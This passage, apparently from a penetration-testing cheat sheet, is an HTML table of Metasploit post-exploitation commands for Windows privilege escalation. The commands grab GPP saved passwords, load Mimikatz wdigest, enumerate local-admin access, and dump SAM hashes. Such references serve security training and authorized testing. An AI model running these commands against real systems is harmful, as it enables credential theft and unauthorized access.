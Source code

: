 Windows Metasploit Modules for privilege escalation. 

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Command</th>
      <th>Description</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>
        <p><code>run post/windows/gather/win_privs</code></p>
      </td>
      <td>
            <p>Metasploit show privileges of current user</p>
      </td>
    </tr>

    <tr>
      <td>
        <p><code>use post/windows/gather/credentials/gpp</code></p>
      </td>
      <td>
            <p>Metasploit grab GPP saved passwords</p>
      </td>
    </tr>

    <tr>
      <td>
        <p><code>load mimikatz -> wdigest</code></p>
      </td>
      <td>
            <p>Metasplit load Mimikatz</p>
      </td>
    </tr>
    <tr>
      <td>
        <p><code>run post/windows/gather/local_admin_search_enum</code></p>
      </td>
      <td>
        <p>Idenitfy other machines that the supplied domain user has administrative access to</p>
      </td>
    </tr>

        <tr>
      <td>
        <p><code>run post/windows/gather/smart_hashdump</code></p>
      </td>
      <td>
        <p>Automated dumping of sam file, tries to esc privileges etc</p>
      </td>
    </tr>

